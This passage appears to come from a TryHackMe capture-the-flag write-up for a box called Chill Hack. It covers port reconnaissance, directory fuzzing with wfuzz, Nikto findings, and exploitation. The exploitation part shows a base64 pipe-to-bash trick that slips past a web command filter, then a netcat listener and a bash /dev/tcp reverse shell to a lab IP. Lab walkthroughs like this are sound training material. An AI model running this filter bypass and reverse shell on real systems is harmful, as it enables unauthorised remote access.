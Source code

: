 And we have two posibble potencial usernames.

> [!info] Posible usernames
> Anurodh, Apaar
## Port 22
![Pasted image 20240928094303.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928094303.png)
## Port 80
![Pasted image 20240928094323.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928094323.png)
We have an webpage
![Pasted image 20240928095803.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928095803.png)
### Fuzz
```shell
wfuzz -c -t 50 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://chillhack.thm/FUZZ/
```
![Pasted image 20240928161834.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928161834.png)
## Secrets
The most interesting subdirectory is this, we can run some commands on the system like `www-data`
![Pasted image 20240928162657.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928162657.png)
## Nikto
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

---
# Exploitation
## Abusing the shell
Tryng to abuse the shell on the browseror or BurpSuite
We can't run some commands like `ls` or `cat`.  But we can bypass it encoding and decoding on `base64` and running with a `/bin/sh`
E.g. Run `ls` command.
```shell
echo "ls" | base64 | base64 -d | /bin/bash
```
![Pasted image 20240928172635.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928172635.png)
## Reverse shell
We will try to get a reverse shell, start the listenet
```shell
rlwrap nc -lnvp 4747
```
Run the revershell url encoded
```shell
echo "bash -i >& /dev/tcp/10.6.2.59/4747 0>&1" | base64 | base64 -d | /bin/bash
echo "bash+-i+>%26+/dev/tcp/10.6.2.59/4747+0>%261" | base64 | base64 -d | /bin/bash
```
We have the shell as `wwww-data`
![Pasted image 20240928174803.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240928174803.png)

---